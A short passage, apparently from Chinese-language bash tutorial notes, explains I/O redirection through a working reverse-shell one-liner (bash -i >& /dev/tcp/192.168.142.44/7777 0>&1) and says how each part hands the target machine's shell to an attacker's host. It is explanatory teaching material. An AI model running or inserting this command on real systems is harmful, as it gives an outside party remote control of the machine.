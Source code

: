     统计用户在终端输入的文本的行数，直到遇见分界符 `END` 才停止。

> bash反弹连接案例
>
> `bash -i >& /dev/tcp/192.168.142.44/7777 0>&1`
>
> `bash -i `：在靶机打开交互式的Shell
>
> `/dev/tcp/192.168.142.44/7777 `：连接到攻击机IP端口
>
> `>& `和 `&>`等价，代表标准输出1 + 错误输出2；把靶机的输出重定向到攻击机——接收结果
>
> `0>&1`：左边是标准输入。右边是标准输出，输出重定向。把靶机的输入重定向为攻击机的输出——接收命令
>
> 这条命令的作用：靶机的输入输出都到了攻击机上

